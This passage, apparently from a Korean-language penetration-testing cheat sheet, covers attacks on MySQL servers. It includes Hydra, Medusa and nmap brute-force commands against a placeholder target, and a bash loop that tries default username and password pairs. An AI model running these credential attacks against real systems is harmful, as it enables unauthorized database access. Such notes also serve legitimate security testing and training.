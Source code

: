```bash
# 샘플 데이터 확인
SELECT * FROM table_name LIMIT 10;
```

### 🔐 브루트포스 공격 (기본 자격증명 실패시)

```bash
# Hydra를 이용한 MySQL 브루트포스
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://{IP}
hydra -L users.txt -P passwords.txt mysql://{IP}

# 일반적인 MySQL 계정들
hydra -L mysql_users.txt -P passwords.txt mysql://{IP}
# mysql_users.txt: root, admin, mysql, user, test, guest, dba

# 특정 사용자에 대한 집중 공격
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://{IP} -t 4 -W 3

# Medusa 사용
medusa -h {IP} -u root -P /usr/share/wordlists/rockyou.txt -M mysql

# nmap 브루트포스
nmap --script mysql-brute -p 3306 {IP}

# 사용자 열거 (오래된 MySQL 버전)
nmap --script mysql-enum -p 3306 {IP}
```

---

## 🚨 문제 해결

### 🚫 MySQL 연결 거부시

```bash
# 다른 MySQL 포트 확인
nmap -p 3306,3307,33060,33061 {IP}

# MySQL 8.0+ 새로운 기본 포트
nmap -p 33060 {IP}  # MySQL X Protocol

# bind-address 확인 (로컬 접근만 허용하는 경우)
nmap --script mysql-info -p 3306 {IP}

# SSL 연결 시도
mysql -h {IP} -u root -p --ssl-mode=REQUIRED
```

### 🔒 인증 실패시

```bash
# 다양한 사용자명/패스워드 조합
mysql_users=("root" "admin" "mysql" "user" "test" "guest" "dba")
passwords=("" "root" "admin" "mysql" "password" "123456" "toor" "pass")

for user in "${mysql_users[@]}"; do
    for pass in "${passwords[@]}"; do
        echo "Trying $user:$pass"
        timeout 5 mysql -h {IP} -u $user -p$pass -e "SELECT 1;" 2>/dev/null && echo "SUCCESS: $user:$pass"
    done
done

# MySQL 8.0+ 인증 플러그인 문제
```